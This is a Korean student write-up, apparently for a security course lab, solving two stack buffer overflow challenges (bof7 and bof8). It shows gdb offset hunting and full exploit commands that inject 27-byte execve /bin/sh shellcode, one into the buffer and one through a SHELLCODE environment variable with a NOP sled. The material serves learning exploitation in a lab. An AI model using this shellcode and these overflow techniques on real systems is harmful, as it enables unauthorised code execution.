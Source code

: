# bof7~8 풀이
<details>
<summary>bof7 풀이</summary>
<div markdown="1">
<img src="../image/HW_7/a1.png"> bof6.c 코드

> `bof5`까지 했던것과 달리 코드 내부에 `system()`함수가 없다는 것을 볼 수 있다. 그럼 어떻게 쉘의 절대경로 프로세스를 실행시킬까?<br>바로 쉘코드를 이용하는 것이다.<br>bof를 활용하여 함수의 `return`주소의 메모리에 넣고 싶은 쉘코드를 할당해주면 된다.

> 코드를 보면 `main`함수의 파라미터를 `vuln`함수에서 `buf`에 `strcpy`를 하는 것을 볼 수 있다. <br>즉, 내가 입력한 **input**이 `buf`에 저장되고, `buf`와 어떤 함수의 `return`주소값 (*여기선 vuln의 return address*)의 차이만큼 아무값이나 채워주고 그 위에 다시 내가 입력했던 **input**이 들어있는 `buf`의 주소값을 할당해주면 내가 입력한 **쉘코드**가 실행되는 것이다.

>우선 `vuln`함수가 `main`에서 호출 될 때의 `rsp`(`return adress`)를 찾아보자. **gdb**를 통해 디버깅모드로 들어가서 `vuln`함수의 내부로 들어가보면 <br><img src="../image/HW_7/a2.png"><Br>`vuln`함수가 호출 될때 `rsp`의 주소값이 `0x7fffffffe488`임을 알 수 있다.

>이제 `buf`의 주소값을 찾아야 한다. `strcpy(buf,arg);`부분에서 `buf`가 사용되기 때문에 해당 부분으로 가야하는데, 중간에 있는<br><img src="../image/HW_7/a3.png"><Br>이 부분때문에 그냥 갈 수는 없었다. **gdb**를 통해 내부를 살펴보니 <br><img src="../image/HW_7/a4.png"><Br>`je`로 비교를 하는 것을 볼 수 있었다. `je`는 `ZF`의 값에 따라 결정되기 때문에 이 부분에서 `ZF`를 강제로 조작해서 넘어가 보았다.<BR>`set $eflags |= (1<<6)` 를 입력하면 `ZF`를 1로 만들어 해당 `if`문을 건너 뛸 수 있다.

>두개의 `if`문을 넘어서 `strcpy(buf,arg)`로 도착했다.<br><img src="../image/HW_7/a5.png"><Br>이 때 `rdi`는 `buf`이고 `rsi`는 `arg`임을 알 수 있었다. ***(출력해보면 쉽게 알 수 있다.)***<br>`rdi`의 주소 값을 알 수 있고, 이 주소와 아까 찾은 `return`주소의 차이를 구하면 된다.

><img src="../image/HW_7/a6.png"><Br>두 주소의 차이가 136byte만큼인걸 알았다!

>이제 입력을 할 때가 되었다.<br><img src="../image/HW_7/a7.png"><Br>코드를 보면 위와 같이 `buf`의 주소를 출력해주는 코드를 볼 수 있다. <br>**!!!!여기서 주의 할 점!!!!!**<br>**gdb내부에서 구한 `buf`의 주소와 위 코드로 출력해주는 buf의 주소는 다르다**<br>**둘의 차이를 구해본 결과 64byte만큼 차이가 나고 그 차이는 항상 일정했다.**<br>어쨌든 `buf`쉘코드를 넣고 그 다음 **(136-쉘코드 크기)**만큼 아무값이나 채워넣어야 하므로 다음 코드를 실행시켜본다.

*<쉘코드> \x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05<br>크기 : 27byte*

>```./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109"` ```<br>를 실행시켜 보면 다음과 같은 결과를 얻는다.<br><img src="../image/HW_7/a8.png"><Br>뒤에 나타나는 주소는 **쉘코드+아무값*109**를 넣어준 후의 `buf`의 주소값이다. 그러면 다시 **쉘코드+아무값*109** 뒤(  `return`주소값)에  이 주소(`buf`)값을 리틀앤디언방식을 통해 넣어주면 된다.

>최종적으로 다음 명령어를 통해 해결가능 하다.<br>```./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xb0\xe3\xff\xff\xff\x7f'"` ```<br>해결완료!<br><img src="../image/HW_7/a9.png">
</div>
</details>
<details>
<summary>bof8 풀이</summary>
<div markdown="1">
<img src="../image/HW_7/b1.png">bof8.c코드

>`bof7`과 매우 유사하지만 <BR>`printf("(env:SHELLCODE -> %p)\n)", getenv("SHELLCODE"));`<BR>코드가 추가되어 있음을 알 수 있다.

>`main`함수에서 파라미터를 받는 것이 아닌것 이외에는 위 코드말고는 다른 것이 없는데 `bof7`에서 했던 방법을 그대로 사용하면 안될까? 그래서 `bof7`에서 썼던 방법대로 해보았다. `vuln`이 되돌아가는 `return`의 주소값과 `gets`부분에서 `rdi`의 주소값(=`buf`의 주소값)을 구했다. <br>*이 과정 역시 중간의 if문을 넘기 위해 `ZF`를 강제로 1로 만드는 작업을 했다.(bof7과 동일)*

>둘의 주소를 빼본 결과!<br><img src="../image/HW_7/d2.png"><br>16이 나왔다.. **쉘코드**의 길이가 27인 점을 고려했을 때 입력하는 과정에서 `buf`에 **쉘코드**를 넣는 것은 불가능하다. 그래서 <BR>`printf("(env:SHELLCODE -> %p)\n)", getenv("SHELLCODE"));`<BR>이 코드가 있는 거구나! 라고 생각했다.

>`char *getenv(char *t)`함수는 환경변수에서 `t`문자열과 같은 문자열을 찾기 위해 리스트를 탐색하고 있다면 그 것의 포인터값을 `char*`형식으로 리턴한다. (없다면 `return null`)

>그러면 "SHELLCODE"라는 환경변수에 저장된 값이 있을까? 생각하고 코드를 그냥 실행시켜보았다. <br><img src="../image/HW_7/b3.png"><br>`nil`이 나온다.. 그러면 어떻게 추가할 수 있을까? 바로 export명령어를 통해 환경변수를 설정할 수 있다.<br>`export <변수명>=<값>`형식을 사용하면 되므로<br>`export SHELLCODE="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"`<BR>명령어를 입력하고 다시 `./bof8`을 통해 실행 해보았다.

><img src="../image/HW_7/b4.png"><br>전과 다르게 `0x7fffffffe7de`라는 주소 값이 나타나는 것을 볼 수 있다. 환경변수가 제대로 설정되었다는 것이다. 위에서 `buf`와 `return`의 주소값 차이가 16byte라는 것을 알았으니 `buf`에 입력으로 아무값 16byte만큼과 `SHELLCODE`환경변수의 주소값을 리틀앤디언으로 넣어주면 된다!<br>`(python -c "print 'x'*16+'\xde\xe7\xff\xff\xff\x7f'";cat) | ./bof8`<br>위 명령어를 실행했다. 그러나 다음가 같은 오류가 나타났다..<br><img src="../image/HW_7/d3.png">

>무엇이 문제인지 모르겠어서 힌트를 보았다. 나와 다르점은 `export`를 통해 `SHELLCODE`환경 변수를 설정하는 명령어가 달랐다. 힌트에서는 다음과 같이 <BR>```export SHELLCODE=`python -c "print '\x90'*10+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"` ```<bR>python 구문을 통해 입력해주었다.<br><img src="../image/HW_7/b5.png"><br>왜인지는 모르겠지만 `SHELLCODE`의 환경변수 주소값도 달라졌고 성공도 했다. 무엇이 문제인지는 잘 모르겠다..
</div>
</details>
